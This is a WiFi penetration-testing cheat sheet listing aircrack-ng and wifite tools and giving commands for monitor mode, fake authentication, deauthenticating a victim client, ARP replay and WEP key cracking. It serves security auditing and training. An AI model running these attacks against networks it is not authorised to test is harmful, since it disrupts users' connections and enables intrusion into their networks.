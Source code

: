 # Wifi - Basics

## Tools

* [aircrack-ng/aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) - WiFi security auditing tools suite
* [kimocoder/wifite2](https://github.com/kimocoder/wifite2) - Rewrite of the popular wireless network auditor, "wifite" - original by @derv82
* [derv82/wifite2](https://github.com/derv82/wifite2) - Rewrite of the popular wireless network auditor, "wifite"
* [derv82/wifite](https://github.com/derv82/wifite) - Wifite is an automated wireless attack tool.

## Linux Wireless Basics

```powershell
AP_MAC="XX:XX:XX:XX:XX"       # BSSID
VICTIM_MAC="XX:XX:XX:XX:XX"   # VIC
ATTACKER_MAC="XX:XX:XX:XX:XX" # MON
AP_SSID="wifibox"             # ESSID
SRC_ADDR="192.168.1.1"
DST_ADDR="192.168.1.255"
```

```powershell
# driver install
apt install realtek-rtl88xxau-dkms

# network card recon
iwconfig
iw list
dmesg | grep 8187 # alfa card

# Increase Wi-Fi TX Power
iw reg set B0
iwconfig wlan0 txpower <NmW|NdBm|off|auto> # txpower is 30 (usually)

# find SSID and channel
iw dev wlan0 scan | grep SSID
iw dev wlan0 scan | egrep "DS\ Parameter\ set|SSID"
iwlist wlan0 scanning | egrep "ESSID|Channel"

# monitor mode - start
airmon-ng start wlan0
airmon-ng start wlan0 3 # only on a particular channel e.g: 3
    * Manual 1: iw dev wlan0 interface add mon0 type monitor
    * Manual 2: iwconfig wlan0 mode monitor channel 3
ifconfig mon0 up
# monitor mode - stop
airmon-ng stop mon0
    * Manual 1: iw dev wlan0 interface del mon0 
    * Manual 2: iwconfig wlan0 mode managed
```

## Aircrack-ng Essentials

```powershell
# check and kill processes that could interfere with our monitor mode
airmon-ng check
airmon-ng check kill
# pkill dhclient; pkill wpa_supplicant; pkill dhclient3

# list AP
airodump-ng mon0
airodump-ng mon0 -c 3 # only on a particular channel e.g: 3
airodump-ng mon0 -c 3 --bssid $AP_MAC -w clearcap # dump traffic

# get our macaddress
macchanger -s mon0 
macchanger --show mon0

# replay and accelerate traffic
aireplay-ng
    * -i interface
    * -r file.pcap

# check aireplay card compatibility
aireplay-ng -9 mon0 -> test injection
aireplay-ng -9 -i wlan1 mon0 -> test card to card injection

# injection rate
iwconfig wlan0 rate 1M

# Aircrack compatibility
http://www.aircrack-ng.org/doku.php?id=compatibility_drivers#list_of_compatible_adapters
Alfa AWUS036H / TPLink WN722
```

### Fake authentication attack

:warning: use it before each attack

```powershell
airodump-ng -c 3 --bssid $AP_MAC -w wep1 mon0

# fake authentication = no arp
aireplay-ng -1 0 -e AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0
    * Might need a real $ATTACKER_MAC, observe traffic using airodump
 > Association successful! :-)

# fake authentication for picky AP
# Send keep-alive packets every 10 seconds
aireplay-ng -1 6000 -o 1 -q 10 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>

# might need to fake your MAC ADDRESS first
```

### Deauthentication attack

> Force ARP packet to be sent.

```powershell
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
    * -0 : 1 deauthentication, 0 unlimited
 > Sending 64 directed DeAuth.
```

### ARP Replay Attack

Video: wifu-20.mp4 The attack listens for an ARP packet and then retransmits it back to the access point. This, in turn, causes the AP to repeat the ARP packet with a new IV. By collecting enough of these IVs Aircrack-ng can then be used to crack the WEP key.

```powershell
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0
 * ATTACKER_MAC if fake authentication launched
 * CONNECTED_MAC if a client is associated

# –x 1000 –n 1000 ?
# aireplay-ng -3 –x 1000 –n 1000 –b $AP_MAC -h $ATTACKER_MAC wlan0mon
# wait for ARP on the network
# alternatively you can de-auth some clients

aircrack-ng –b <BSSID> <PCAP_of_FileName>
aircrack-ng -0 wep1.cap
    * -0 : colored output
```

## References

* [Wireless Penetration Testing Cheat Sheet [UPDATED – 2022]](https://uceka.com/2014/05/12/wireless-penetration-testing-cheat-sheet/)
* [Aireplay 0841 Attack – Introduction](https://www.doyler.net/security-not-included/aireplay-0841-attack)
